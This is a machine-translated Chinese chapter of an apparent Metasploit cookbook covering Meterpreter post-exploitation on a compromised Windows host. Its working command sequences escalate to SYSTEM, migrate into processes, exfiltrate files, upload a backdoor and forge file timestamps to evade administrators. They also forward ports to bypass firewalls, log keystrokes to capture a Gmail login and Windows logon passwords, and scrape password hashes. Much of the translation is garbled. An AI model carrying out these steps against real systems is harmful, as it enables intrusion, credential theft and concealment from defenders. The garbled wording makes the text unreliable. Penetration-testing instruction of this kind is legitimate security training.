


# 五、利用 MeterMeter 探测受害目标

在本章中，我们将介绍以下内容：

*   分析仪表系统命令
*   权限提升和进程迁移
*   与目标建立多个通信通道
*   MeterMeter 文件系统命令
*   使用 timestomp 更改文件属性
*   使用 MeterMeter 网络命令
*   getdesktop 和按键嗅探
*   使用 scraper meterpeter 脚本

# 导言

到目前为止，我们更加强调开发前阶段，在该阶段，我们尝试了各种技术和开发，以损害我们的目标。在本章中，我们将重点介绍开发后阶段，在开发目标机器之后我们可以做些什么。Metasploit 提供了一个非常强大的开发后工具，名为 meterpreter，它为我们提供了许多功能，可以简化我们探索目标机器的任务。我们已经在防病毒绕过的前一章中看到了 MeterMeter 的使用和后期利用。在本章中，我们将详细了解 MeterMeter 以及如何将其用作开发后阶段的潜在工具。

我们一直在使用有效载荷来实现特定的结果，但它们有一个主要的缺点。有效负载通过在受害系统中创建新进程来工作。这会触发防病毒程序中的警报，并且很容易被捕获。此外，有效负载仅限于执行一些特定任务或执行 shell 可以运行的特定命令。为了克服这些困难，计量器出现了。

**Meterpeter**是 Metasploit 的命令解释器，充当有效负载，通过使用内存中的 DLL 注入和本机共享对象格式工作。它在被利用进程的上下文中工作，因此它不会创建任何新进程。这使得它更加隐蔽和强大。

让我们来看看 MeterMeter 是如何工作的。下图显示了加载仪表的简单逐步表示：



在第一步中，利用漏洞和第一阶段有效负载被发送到目标机器。攻击完成后，stager 将自己绑定到具有特定任务的目标，并尝试连接回攻击方 `msfconsole`，并建立适当的通信通道。现在 stager 加载 DLL。 `msfconsole`发送第二级 DLL 注入有效负载。成功注入后，MSF 发送 MeterMeter DLL 以建立正确的通信通道。最后，MeterMeter 加载扩展，例如 `stdapi`和 `priv`。所有这些扩展都使用 TLV 协议在 TLS/1.0 上加载。MeterMeter 使用与目标用户的加密通信，这是使用它的另一个主要优势。让我们快速总结一下 MeterMeter 相对于特定有效载荷的优势：

*   它与被利用的流程一起工作，因此不会创建新流程
*   它可以很容易地在进程之间迁移
*   它完全驻留在内存中，因此不会在磁盘上写入任何内容
*   它使用加密通信
*   它使用信道化的通信系统，因此我们可以一次使用多个信道
*   它提供了一个快速、方便地编写扩展的平台

本章完全致力于使用 MeterMeter 提供的各种命令和脚本来探索目标机器。我们将从分析常见的 MeterMeter 命令开始。然后，我们将继续设置不同的通信通道、使用联网命令、密钥嗅探等。最后，我们将讨论 scraper meterpeter 脚本，它可以创建一个包含有关目标用户的各种信息的目录。在本章中，我们将主要关注那些有助于探索受害系统的命令和脚本。

因此，让我们继续深入了解米表的配方。

# 分析仪表系统命令

让我们开始使用 MeterMeter 命令来了解它们的功能。由于它是一个攻击后工具，我们将需要一个受害的目标来执行命令。我们将使用 Windows 7 计算机作为我们利用浏览器漏洞攻击的目标。您可以参考[第 4 章](04.html "Chapter 4. Client-side Exploitation and Antivirus Bypass")*客户端攻击和防病毒绕过*中的*Internet Explorer CSS 递归调用内存损坏*配方，了解更多详细信息。

## 准备好了吗

在破坏 Windows7 目标机器之后，我们将启动一个 MeterMeter 会话，因为我们已经使用了 `windows/meterpreter/bind_tcp`有效负载。我们将首先使用一个简单的 `?`命令，该命令将列出所有可用的 MeterMeter 命令，并提供一个简短的描述：

```
meterpreter > ? 
```

快速查看整个列表。许多命令都是不言自明的。

## 怎么做。。。

让我们从一些有用的系统命令开始。

*   `background:`此命令用于将当前会话设置为后台，以便在需要时可以再次使用。当存在多个活动的 MeterMeter 会话时，此命令非常有用。
*   `getuid:`此命令返回目标计算机上正在运行的用户名或我们在其中闯入的用户名。

    ```
    meterpreter > getuid
    Server username: DARKLORD-PC\DARKLORD 
    ```

*   `getpid:`此命令返回当前运行 MeterMeter 的进程 ID。

    ```
    meterpreter > getpid
    Current pid: 4124 
    ```

*   `ps:`此命令将列出目标机器上所有正在运行的进程。此命令有助于识别目标上运行的各种服务和软件。

    ```
    meterpreter > ps
    PID Name Arch Session User
    --- ---- ------- ----
    0 [System Process]
    1072 svchost.exe
    1172 rundll32.exe x86 1 DARKLORD-PC\DARKLORD 
    ```

*   `sysinfo:`这是一个方便的命令，用于快速验证系统信息，如操作系统和架构。

    ```
    meterpreter > sysinfo
    Computer : DARKLORD-PC
    OS : Windows 7 (Build 7264).
    Architecture : x86
    System Language : en_US
    Meterpreter : x86/win32 
    ```

*   `shell:`此命令将我们带入 shell 提示符。我们已经在以前的一些食谱中看到了这个 meterpeter 命令的使用。

    ```
    meterpreter > shell
    Process 4208 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7264]
    Copyright (c) 2009 Microsoft Corporation. All rights reserved. 
    ```

*   `exit:`此命令用于终止 MeterMeter 会话。此命令还可用于终止 shell 会话并返回 MeterMeter。

这些是一些有用的系统命令，可用于探测受害目标以获取更多信息。还有许多其他命令，我将留给您尝试和探索。您可能已经注意到，使用 MeterMeter 命令和探索目标是多么容易，如果没有它，这将是一项困难的任务。在我们的下一个配方中，我们将重点介绍一些高级 MeterMeter 命令。

## 它是如何工作的。。。

MeterMeter 与任何命令解释器一样工作。它旨在通过命令理解和响应各种参数调用。它驻留在被利用/被破坏的进程的上下文中，并与渗透测试仪的机器创建客户机/服务器通信系统。


上图概括地说明了 MeterMeter 的功能。一旦建立了通信通道，我们就可以向 MeterMeter 服务器发送命令调用，将其响应返回到我们的机器。随着本章的继续，我们将更详细地了解 pen 测试机和受害目标之间的通信。

# 权限提升和进程迁移

在本食谱中，我们将重点介绍 MeterMeter 的两个非常有用的命令。第一个用于**权限提升**。此命令用于升级目标系统上的权限/权限。我们可能会以一个在系统上执行任务的权限较低的用户身份闯入。因此，我们可以将权限升级到系统管理员，以便在不中断的情况下执行任务。第二个命令用于**进程迁移**。此命令用于从一个进程迁移到另一个进程，而无需在磁盘上写入任何内容。

## 怎么做。。。

为了提升我们的特权，MeterMeter 向我们提供了 `getsystem`命令。此命令自动开始查找各种可能的技术，通过这些技术，用户权限可以升级到更高级别。让我们分析一下 `getsystem`命令使用的不同技术

```
meterpreter > getsystem -h
Usage: getsystem [options]
Attempt to elevate your privilege to that of local system.
OPTIONS:
-t <opt> The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)
4 : Exploit - KiTrap0D (In Memory/User) 
```

## 它是如何工作的。。。

有三种不同的技术， `getsystem`命令试图提升目标的权限。默认值 `0`尝试所有列出的技术，除非成功尝试。让我们快速了解一下这些升级技术。

**命名管道**是一种机制，它使应用程序的进程间通信能够在本地或远程进行。创建管道的应用程序称为管道服务器，连接到管道的应用程序称为管道客户端。**模拟**是线程在不同于拥有该线程的进程的安全上下文中执行的能力。模拟使服务器线程能够代表客户端执行操作，但必须在客户端安全上下文的限制范围内。当客户端拥有的权限多于服务器时，就会出现问题。此场景将创建一个名为**命名管道模拟**升级攻击的权限升级攻击。

### 注

有关命名管道模拟的详细文章，请参见[http://hackingalert.blogspot.com/2011/12/namedpipe-impersonation-attacks.html](http://hackingalert.blogspot.com/2011/12/namedpipe-impersonation-attacks.html) 。

操作系统的每个用户都有一个唯一的令牌 ID。该 ID 用于检查系统的各个用户的权限级别。令牌复制通过低权限用户复制高权限用户的令牌 ID 来实现。然后，较低权限用户的行为方式与较高权限用户类似，它拥有与较高权限用户相同的所有权利和权限。

KiTrapOD 漏洞于 2010 年初发布，这几乎影响了微软在此之前制造的所有操作系统。在 32 位 x86 平台上启用对 16 位应用程序的访问时，无法正确验证某些 BIOS 调用。这允许本地用户通过在**线程环境块（TEB）**中创建 `VDM_TIB`数据结构来获得权限，以处理涉及#GP trap handler（nt！KiTrap0D）的异常，也称为“Windows 内核异常处理程序漏洞”。

现在我们已经了解了 `getsystem`命令所使用的各种升级技术，我们的下一步将是在我们的目标上执行该命令，看看会发生什么。首先，我们将使用 `getuid`命令检查我们当前的用户 ID，然后我们将尝试使用 `getsystem`命令升级我们的权限：

```
meterpreter > getuid
Server username: DARKLORD-PC\DARKLORD
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

正如您所看到的，以前我们是一个权限较低的用户，在使用 `getsystem`命令后，我们将权限升级为系统用户。

我们将要讨论的下一个重要的 MeterMeter 命令是 `migrate`命令。此命令用于从一个进程上下文迁移到另一个进程上下文。在当前进程（我们已中断）可能崩溃的情况下，此命令非常有用。例如，如果我们使用浏览器漏洞渗透系统，那么浏览器可能会在漏洞攻击后挂起，用户可能会将其关闭。因此，迁移到稳定的系统流程可以帮助我们顺利执行渗透测试。我们可以使用进程 ID 迁移到任何其他活动进程。 `ps`命令可用于标识所有活动进程的 ID。例如，如果 `explorer.exe`的 ID 为 `2084`，那么我们可以通过执行以下命令迁移到 `explorer.exe`：

```
meterpreter > migrate 2084
[*] Migrating to 2084...
[*] Migration completed successfully. 
```

这两个 MeterMeter 命令非常方便，在渗透测试期间经常使用。它们的简单性和高生产率使它们成为最佳的使用方式。在我们的下一个食谱中，我们将讨论沟通渠道，以及如何有效地利用这些渠道与目标进行沟通。

# 与目标建立多个通信通道

在本食谱中，我们将了解如何设置多个与目标通信的通道。在本章的引言中我们已经讨论过，MeterMeter 中客户端和服务器之间的通信是加密的，它使用**类型长度值（TLV）**协议进行数据传输。使用 TLV 的主要优点是，它允许使用特定的通道号标记数据，从而允许在受害者身上运行的多个程序与攻击机器上的 MeterMeter 进行通信。这有助于一次设置多个通信通道。

现在让我们分析如何使用 MeterMeter 与目标机器建立多个通信通道。

## 准备好了吗

MeterMeter 为我们提供了一个名为 `execute`的特定命令，可用于启动多个通信通道。首先，让我们运行 `execute -h`命令查看可用选项：

```
meterpreter > execute -h
Usage: execute -f file [options]
Executes a command on the remote machine.
OPTIONS:
-H Create the process hidden from view.
-a <opt> The arguments to pass to the command.
-c Channelized I/O (required for interaction).
-d <opt> The 'dummy' executable to launch when using -m.
-f <opt> The executable command to run.
-h Help menu.
-i Interact with the process after creating it.
-k Execute process on the meterpreters current desktop
-m Execute from memory.
-s <opt> Execute process in a given session as the session user
-t Execute process with currently impersonated thread token 
```

您可以通过 `execute`命令查看我们可用的各种参数。让我们在设置多个通道时使用其中一些参数。

## 怎么做。。。

从创建通道开始，我们将使用 `-f`操作符和 `execute`命令：

```
meterpreter > execute -f notepad.exe -c
Process 5708 created.
Channel 1 created. 
```

请注意不同参数的使用。 `-f`参数用于设置可执行命令， `-c`运算符用于设置信道化 I/O。现在我们可以再次运行 execute 命令启动另一个信道，而不终止当前信道：

```
meterpreter > execute -f cmd.exe -c
Process 4472 created.
Channel 2 created.
meterpreter > execute -f calc.exe -c
Process 6000 created.
Channel 3 created. 
```

现在我们有三个不同的频道同时在受害者机器上运行。要列出可用通道，我们可以使用 `channel -l`命令。如果我们想在通道上发送一些数据或写入一些内容，我们可以使用 `write`命令，后跟我们想写入的通道 ID。让我们继续在我们的一个活动频道中写一条消息：

```
meterpreter > write 5
Enter data followed by a '.' on an empty line:
Metasploit!!
.
[*] Wrote 13 bytes to channel 5. 
```

执行 `write`命令和通道 ID 提示我们输入数据，后面跟着一个点。我们在频道上成功地写了 `Metasploit!!`。为了读取任何通道的数据，我们可以使用后跟通道 ID 的 `read`命令。

此外，如果我们想与任何通道进行交互，我们可以使用后跟通道 ID 的 `interact`命令：

```
meterpreter > interact 2
Interacting with channel 2...
Microsoft Windows [Version 6.1.7264]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Users\DARKLORD\Desktop> 
```

正如您所看到的，我们的通道 2 是一个命令提示符通道，因此通过使用 `interact`命令，我们直接进入命令提示符模式，从那里我们可以执行系统命令。我们可以使用 `interact`命令轻松地在通道之间切换。为了结束一个通道，我们可以使用后跟通道 ID 的 `close`命令。

此配方演示了使用多个通道的能力。它还显示了同时管理它们和在不同渠道之间切换是多么容易。当我们在目标机器上运行多个服务时，通道的使用变得非常重要。

在下一个配方中，我们将重点研究使用 MeterMeter 的目标机器的文件系统。

## 它是如何工作的。。。

Metasploit 使用单独的通道 ID 标记每条消息，这有助于识别执行特定命令的通道上下文。如前所述，MeterMeter 中的通信过程遵循 TLV 协议，该协议提供了使用特定通道 ID 标记不同消息的灵活性，以提供多通道通信支持。

# MeterMeter 文件系统命令

在这个配方中，我们将继续使用文件系统命令。这些命令有助于探索目标系统以执行各种任务，例如搜索文件、下载文件和更改目录。您将注意到使用 MeterMeter 控制目标机器是多么容易。因此，让我们开始使用一些有用的文件系统命令。

## 怎么做。。。

我们将从简单的 `pwd`命令开始，该命令列出目标机器上当前的工作目录。同样，我们可以使用 `cd`命令将工作目录更改为首选位置：

```
meterpreter > pwd
C:\Users\DARKLORD\Desktop
meterpreter > cd c:\
meterpreter > pwd
c:\ 
```

如您所见，我们首先使用 `pwd`命令列出了我们的工作目录，然后使用 `cd`命令将我们的工作目录更改为 `c:`。我们还可以使用 `ls`命令列出当前目录中的可用文件。

现在我们可以使用目录了，我们的下一个任务将是搜索驱动器上的文件。浏览每个目录和子目录以查找文件将非常繁琐。我们可以使用 `search`命令快速搜索特定的文件类型。考虑下面的例子：

```
meterpreter > search -f *.doc -d c:\ 
```

此命令将搜索 `C`驱动器中以 `.doc`为文件扩展名的所有文件。 `f`参数用于指定要搜索的文件模式， `d`参数告诉目录要搜索的文件。

因此，一旦我们搜索了特定的文件，接下来我们可以做的就是在目标机器上本地下载该文件。让我们首先尝试将文件下载到攻击系统：

```
meterpreter > download d:\secret.doc /root
[*] downloading: d:secret.doc -> /root/d:secret.doc
[*] downloaded : d:secret.doc -> /root/d:secret.doc 
```

通过使用 `download`命令，我们可以成功地将任何文件从目标机器下载到我们的机器上。 `d:\secret.doc`文件被下载到我们攻击机器的 `root`文件夹中。

同样，我们可以使用 `upload`命令将任何文件发送到目标机器：

```
meterpreter > upload /root/backdoor.exe d:\
[*] uploading : /root/backdoor.exe -> d:\
[*] uploaded : /root/backdoor.exe -> d:\\backdoor.exe 
```

最后，我们可以使用 `del`命令从目标机器上删除文件或目录。

```
meterpreter > del d:\backdoor.exe 
```

## 它是如何工作的。。。

MeterMeter 通过设置交互式命令提示符，使我们能够完全访问目标机器。我们也可以删除 shell 会话以在默认的 windows DOS 模式下工作，但它没有那么多功能。这是对 MeterMeter 的一些重要文件系统命令的快速参考，它可以帮助我们探索目标机器上存在的文件。还有更多的命令；建议您尝试一下，找出可能存在的各种可能性。

在下一个配方中，我们将看到一个非常有趣的 MeterMeter 命令，名为 `timestomp`，可用于修改目标机器上的文件属性。

# 使用 timestomp 更改文件属性

在前面的配方中，我们了解了一些重要而有用的 MeterMeter 文件系统命令，这些命令可用于在目标机器上执行各种任务。MeterMeter 包含另一个名为 `timestomp`的有趣命令。此命令用于更改文件的**修改的已访问已创建条目（MACE）**属性。属性值是文件发生任何 MACE 活动的日期和时间。使用 `timestomp`命令，我们可以更改这些值。

## 准备好了吗

在开始烹饪之前，你可能会想到一个问题。为什么要更改 MACE 值？黑客通常使用更改 MACE 值的技术，以使目标用户感觉文件已在系统上存在很长时间，并且未被触摸或修改。如果有可疑活动，管理员可能会检查最近修改的文件，以确定是否有任何文件已被修改或访问。因此，使用此技术，文件将不会出现在最近访问或修改的项目列表中。尽管还有其他技术，但要确定文件属性是否已被修改，此技术仍然很方便。

让我们从目标机器中提取一个文件并更改其 MACE 属性。下面的屏幕截图显示了使用 `timestomp:`之前文件的各种 MACE 值


现在，我们将继续更改各种 MACE 值。让我们从通用的 `timestomp -h`命令开始，该命令用于列出各种可用选项。我们可以使用 `-v`操作符列出 MACE 属性的值：

```
meterpreter > timestomp d:\secret.doc v
Modified : 2011-12-12 16:37:48 +0530
Accessed : 2011-12-12 16:37:48 +0530
Created : 2011-12-12 16:37:47 +0530
Entry Modified: 2011-12-12 16:47:56 +0530 
```

## 怎么做。。。

我们将从更改文件的创建时间开始。注意 `timestomp`命令传递的各种参数：

```
meterpreter > timestomp d:\secret.doc -c "3/13/2013 13:13:13"
[*] Setting specific MACE attributes on d:secret.doc 
```

## 它是如何工作的。。。

`-c`操作符用于更改文件的创建时间。同样，我们可以使用 `-m`和 `-a`操作符来更改文件的修改和上次访问属性

```
meterpreter > timestomp d:\secret.doc -m "3/13/2013 13:13:23"
[*] Setting specific MACE attributes on d:secret.doc
meterpreter > timestomp d:\secret.doc -a "3/13/2013 13:13:33"
[*] Setting specific MACE attributes on d:secret.doc 
```

属性更改后，我们可以再次使用 `-v`操作符检查并验证是否成功执行了命令。让我们继续前进，再次检查文件属性：

```
meterpreter > timestomp d:\secret.doc v
Modified : 2013-03-13 13:13:13 +0530
Accessed : 2013-03-13 13:13:23 +0530
Created : 2013-03-13 13:13:33 +0530
Entry Modified: 2013-03-13 13:13:13 +0530 
```

答对 了我们已成功修改文件的 MACE 属性。现在，可以从最近修改或访问的文件列表中轻松隐藏此文件。

或者，我们也可以使用 `-z`操作符在 go 中更改所有四个 MACE 值。我们不必分别为它们传递命令。但是 `-z`操作符将为所有四个 MACE 属性分配相同的值，这实际上是不可能的。创建时间和访问时间之间必须有一定的时差。因此，应避免使用 `-z`操作符。

这是一个处理 `timestomp`实用程序的小配方。在下一个菜谱中，我们将了解一些有用的 MeterMeter 网络命令，这些命令在我们理解旋转时将非常有用。

# 使用仪表联网命令

MeterMeter 还为我们提供了一些有用的网络命令。这些命令有助于理解目标用户的网络结构。我们可以分析该系统是属于局域网还是独立系统。我们还可以知道 IP 范围、DNS 和其他信息。当我们必须执行数据透视时，此类网络信息可能很有用。“数据透视”是一个概念，通过这个概念，我们可以在目标所在的同一网络上危及其他机器。我们将在下一章中了解旋转，重点介绍 MeterMeter 的高级使用。

## 准备好了吗

在我们进入菜谱之前，我们将在这里遇到三个网络术语。因此，让我们通过查看以下术语快速回顾一下我们的记忆：

*   **子网**或**子网**是将大型网络划分为更小的可识别部分的概念。子网化是为了提高地址的实用性和安全性。
*   **网络掩码**是一个 32 位掩码，用于将 IP 地址划分为子网并指定网络的可用主机。
*   **网关**指定转发或下一跳 IP 地址，通过该地址可以访问由网络目标和子网掩码定义的地址集。

在处理 `route`命令时，我们将使用这三个术语。

## 怎么做。。。

MeterMeter 提供了三个联网命令。这些是 `ipconfig, route`和 `portfwd`。让我们快速地看一下它们中的每一个。

`Ipconfig`命令用于显示目标机器的所有 TCP/IP 网络配置。它列出了目标 IP 地址、硬件 MAC 和网络掩码等信息：

```
meterpreter > ipconfig
Reliance
Hardware MAC: 00:00:00:00:00:00
IP Address : 115.242.228.85
Netmask : 255.255.255.255
Software Loopback Interface 1
Hardware MAC: 00:00:00:00:00:00
IP Address : 127.0.0.1
Netmask : 255.0.0.0 
```

如您所见， `ipconfig`的输出列出了各种活动 TCP/IP 配置。

下一个联网命令是 `route`命令。类似于 MS DOS 的 `route`命令。此命令用于显示或修改目标计算机上的本地 IP 路由表。执行 `route`命令列出当前表：

```
meterpreter > route
Network routes
==============
Subnet Netmask Gateway
------ ------- -------
0.0.0.0 0.0.0.0 115.242.228.85
115.242.228.85 255.255.255.255 115.242.228.85
127.0.0.0 255.0.0.0 127.0.0.1
127.0.0.1 255.255.255.255 127.0.0.1
127.255.255.255 255.255.255.255 127.0.0.1
192.168.56.0 255.255.255.0 192.168.56.1
192.168.56.1 255.255.255.255 192.168.56.1
192.168.56.255 255.255.255.255 192.168.56.1
224.0.0.0 240.0.0.0 127.0.0.1
224.0.0.0 240.0.0.0 192.168.56.1
224.0.0.0 240.0.0.0 115.242.228.85
255.255.255.255 255.255.255.255 127.0.0.1
255.255.255.255 255.255.255.255 192.168.56.1
255.255.255.255 255.255.255.255 115.242.228.85 
```

让我们执行 `route -h`命令，了解如何修改表。

```
meterpreter > route -h
Usage: route [-h] command [args]
Supported commands:
add [subnet] [netmask] [gateway]
delete [subnet] [netmask] [gateway] 
```

如果您查看 `ipconfig`命令的输出，您可以发现目标使用 IP 地址 `115.242.228.85`连接到互联网。因此，我们可以添加一个路由值，将连接作为网关通过 `115.242.228.85`。这可以为我们提供目标机器上的防火墙绕过：

```
meterpreter > route add 192.168.56.2 255.255.255.255 192.168.56.1
Creating route 192.168.56.2/255.255.255.255 -> 192.168.56.1 
```

类似地，我们可以使用 `delete`命令从表中删除路由。

让我们转到最后一个网络命令-`portfwd`。此命令用于将传入的 TCP 和/或 UDP 连接转发到远程主机。考虑下面的例子来理解端口转发。

考虑主机“A”，主机“B”（中间），以及主机“C”。主机 A 应该连接到主机 C 以便做某事，但是如果出于任何原因，主机 B 不能直接连接到 C。如果我们在中间使用主机 B，从 A 得到连接流并将它传递到 B，同时处理连接，则我们说主机 B 正在做 To.t0 端口转发 ORT T1。

这就是线路上的情况：主机 B 正在运行一个软件，该软件在其一个端口（例如端口 20）上打开 TCP 侦听器。主机 C 还运行一个侦听器，当数据包从端口 20 到达时，该侦听器用于连接到主机 B。因此，如果 A 在 B 的端口 20 上发送任何数据包，它将自动转发到主机 C。因此，主机 B 是将其数据包转发到主机 C 的端口。

## 它是如何工作的。。。

要启动远程主机的端口转发，我们可以先添加转发规则。考虑下面的命令行：

```
Meterpreter> portfwd -a -L 127.0.0.1 -l 444 -h 69.54.34.38 -p 3389 
```

请注意不同的命令参数。通过 `-a`参数，我们可以添加新的端口转发规则。 `-L`参数定义将转发套接字绑定到的 IP 地址。由于我们在主机 A 上运行这些，并且希望从同一台主机继续工作，因此我们将 IP 地址设置为 `127.0.0.1`。

`-l`是将在主机 A 上打开的端口号，用于接收传入连接。 `-h`定义主机 C 或内部网络内任何其他主机的 IP 地址。 `-p`是主机 C 上要连接的端口。

这是一个使用端口转发的简单演示。该技术被积极用于绕过防火墙和入侵检测系统。

# getdesktop 和按键嗅探

在这个配方中，我们将处理一些与桌面和按键嗅探相关的 `stdapi`用户界面命令。捕获击键取决于当前的活动桌面，因此了解如何通过在不同桌面活动会话中运行的进程之间切换来嗅探不同的击键是至关重要的。让我们继续深入了解这一点。

## 怎么做。。。

让我们从执行一些用户界面命令开始，我们将在本配方中主要处理这些命令。详情如下:

*   `enumdesktops:` This command will list all the accessible desktops and window stations.

    ```
    meterpreter > enumdesktops
    Enumerating all accessible desktops
    Desktops
    ========
    Session Station Name
    ------- ------- ----
    0 WinSta0 Default
    0 WinSta0 Disconnect
    0 WinSta0 Winlogon
    0 SAWinSta SADesktop 
    ```

    在这里，您可以看到所有可用的桌面工作站都与会话 0 关联。稍后我们将了解会话 0 的确切含义。

*   `getdesktop:` This command returns the current desktop in which our meterpreter session is working.

    ```
    meterpreter > getdesktop
    Session 0\Service-0x0-3e7$\Default 
    ```

    您可以将 `getdesktop`命令的输出与 `enumdesktops`关联起来，以了解我们正在使用的当前桌面工作站。

*   `setdesktop:`此命令用于将当前的仪表桌面更改为另一个可用的桌面工作站。
*   `keyscan_start:`此命令用于启动当前 active desktop 工作站中的击键嗅探器。
*   `keyscan_dump:`此命令转储活动 MeterMeter 桌面会话记录的击键。

现在让我们分析这些命令在实时场景中的工作方式，以及如何通过不同的桌面工作站嗅探击键。

## 它是如何工作的。。。

在我们继续介绍这个菜谱之前，我们将了解一个关于 Windows 桌面的重要概念。

Windows 桌面被划分为不同的**会话**，以定义我们与 Windows 机器交互的方式。会话 0 表示控制台。其他会话（会话 1、会话 2 等）表示远程桌面会话。

因此，为了捕获我们闯入的系统的击键，我们必须在桌面会话 0 中工作：



每个 Windows 桌面会话由不同的工作站组成。在上图中，您可以看到与会话 0 关联的不同工作站。在这些电台中，WinSta0 是唯一的交互式电台。这意味着用户只能与 WinSta0 工作站交互。所有其他电台都是非交互式的。现在，WinSta0 由三个不同的桌面组成，即默认、断开连接和 Winlogon。默认桌面与我们在桌面上执行的所有应用程序和任务相关联。 `Disconnect`桌面与屏幕保护程序锁桌面有关。Winlogon 桌面与 Windows 登录屏幕有关。

这里需要注意的是，每个桌面都有自己的键盘缓冲区。因此，如果您必须从 `Default`桌面嗅探击键，您必须确保当前的 meterpreter 活动浏览器设置为 `Session 0/WinSta0/Default`。如果您必须嗅探登录密码，则必须更改 active desktop `to Session 0/WinSta0/Winlogon`。让我们举一个例子来说明这一点。

让我们使用 `getdesktop`命令检查当前桌面：

```
meterpreter > getdesktop
Session 0\Service-0x0-3e7$\Default 
```

如你所见，我们不在 `WinSta0`站，这是唯一的交互式桌面站。因此，如果我们在这里运行击键捕获，那么它不会返回任何结果。让我们将桌面更改为 `WinSta0\Default:`

```
meterpreter > setdesktop
Changed to desktop WinSta0\Default
meterpreter > getdesktop
Session 0\WinSta0\Default 
```

前面的命令行显示，我们使用 `setdesktop`命令移动到交互式 Windows 桌面工作站。因此，现在我们准备运行击键嗅探器来捕获用户在目标机器上按下的键：

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
gmail.com <Return> daklord <Tab> 123123 
```

查看转储的击键，您可以清楚地识别目标用户访问了[gmail.com](http://gmail.com)并输入了其登录凭据。

如果要嗅探 windows 登录密码，该怎么办？显然，您可以使用 `setdesktop`命令将 active desktop 切换到 `WinSta0\Winlogon`，但这里我们也将讨论另一种方法。我们可以迁移到 Windows 登录期间运行的进程。让我们执行 `ps`命令来检查正在运行的进程。

您会发现 `winlogon.exe`以进程 id 的进程运行。假设 `winlogon.exe`的**进程 id（PID）**为 `1180`。现在，让我们迁移到此 PID 并再次检查我们的活动桌面：

```
meterpreter > migrate 1180
[*] Migrating to 1180...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 0\WinSta0\Winlogon 
```

您可以看到我们的 active desktop 已更改为 `WinSta0\Winlogon`。现在我们可以运行 `keyscan_start`命令，开始在 Windows 登录屏幕上嗅探击键。

类似地，我们可以通过迁移到默认桌面上运行的任何进程来返回默认桌面。用 Posiple T1

```
meterpreter > migrate 884
[*] Migrating to 884...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 0\WinSta0\Default 
```

您可能已经注意到迁移到不同进程和桌面环境以检测击键的重要性。通常，人们在不查看当前活动桌面的情况下直接运行 `keyscan`不会得到结果。这是因为他们所渗透的进程可能属于不同的会话或站点。因此，在使用按键嗅探时，请记住桌面的概念。

# 使用刮板 MeterMeter 脚本

到目前为止，我们了解了几个 MeterMeter 命令。在这里，我们将看一看一个重要的 MeterMeter 脚本，它可以帮助我们更深入地探索我们的目标。下一章将详细介绍 MeterMeter 脚本，因此这里我们将重点介绍如何使用该脚本。在渗透测试期间，您可能需要很多时间来挖掘目标的信息。因此，对于渗透测试人员来说，有一个有用信息的本地备份非常方便，这样即使目标失败，他们仍然有信息要处理。它还使得与其他测试人员共享信息变得容易。铲运机为我们完成了这项任务。

## 准备好了吗

scraper meterpeter 脚本可以挖掘出大量关于受害目标的信息，例如注册表信息、密码哈希和网络信息，并将其本地存储在测试人员的机器上。

为了使用 MeterMeter 在目标上执行 Ruby 脚本，我们可以使用 `run`命令。执行 `run scraper -h`命令将列出我们可以通过脚本传递的各种可用参数。让我们继续分析如何在本地下载信息。

## 怎么做。。。

脚本在执行后会自动执行所有操作。它在 `/root/.msf4/logs/scripts/scraper`下创建一个目录，保存所有文件。您可能会在脚本执行过程中注意到一个错误，这可能是因为命令可能无法在目标上执行（命令行输出已被缩短以适应）：

```
meterpreter > run scraper
[*] New session on 192.168.56.1:4232...
[*] Gathering basic system information...
[*] Error dumping hashes: Rex::Post::Meterpreter::RequestError priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
[*] Obtaining the entire registry...
[*] Exporting HKCU
[*] Downloading HKCU (C:\Users\DARKLORD\AppData\Local\Temp\UKWKdpIb.reg) 
```

脚本会自动下载信息并将其保存在目标文件夹中。让我们看一下源代码，以分析是否可以根据需要进行一些更改。

## 它是如何工作的。。。

`scraper.rb`的源代码在 `/pentest/exploits/framework3/scripts/meterpreter`下。

Ruby 编码经验可以帮助您编辑脚本以添加自己的功能。我们可以通过编辑以下行更改下载位置：

```
logs = ::File.join(Msf::Config.log_directory, 'scripts','scraper', host + "_" + Time.now.strftime("%Y%m%d.%M%S")+sprintf("%.5d",rand(100000)) ) 
```

假设您也想获得可用进程列表的结果，那么您只需在程序主体中添加以下代码行：

```
::File.open(File.join(logs, "process.txt"), "w") do |fd|
fd.puts(m_exec(client, "tasklist"))
end 
```

通过使用一点 Ruby 语言和代码重用，您可以轻松地根据需要修改代码。

## 还有更多。。。

让我们了解另一个 MeterMeter 脚本，该脚本可用于从目标机器收集信息。

### 使用 winenum.rb

`winenum.rb`是另一个 MeterMeter 脚本，可以帮助您收集有关目标的信息并在本地下载。其工作原理与 `scraper.rb`类似。您也可以尝试此脚本，看看它可以提供哪些额外信息。脚本可在以下位置找到：

`/pentest/exploits/framework3/scripts/meterpreter/winenum.rb`